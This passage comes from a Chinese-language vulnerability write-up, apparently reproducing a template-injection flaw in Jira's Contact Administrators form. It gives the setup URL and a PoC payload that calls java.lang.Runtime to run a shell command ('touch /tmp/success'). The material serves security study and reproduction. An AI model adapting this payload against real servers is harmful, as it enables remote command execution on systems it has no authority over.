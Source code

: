 然后把联系管理员表单开启：

[http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa](http://localhost:8080/secure/admin/EditApplicationProperties!default.jspa)

[![](assets/1708149766-d36869d6e4902d255f9225696a874260.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515171956-2fbd3248-d430-1.png)

但是后面看了一下，没有正确配置`SMTP`服务会抛出异常，但在连接`SMTP`服务之前漏洞已经触发了

2、poc

```bash
url 路径：/secure/ContactAdministrators!default.jspa 



$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/success').waitFor()
```
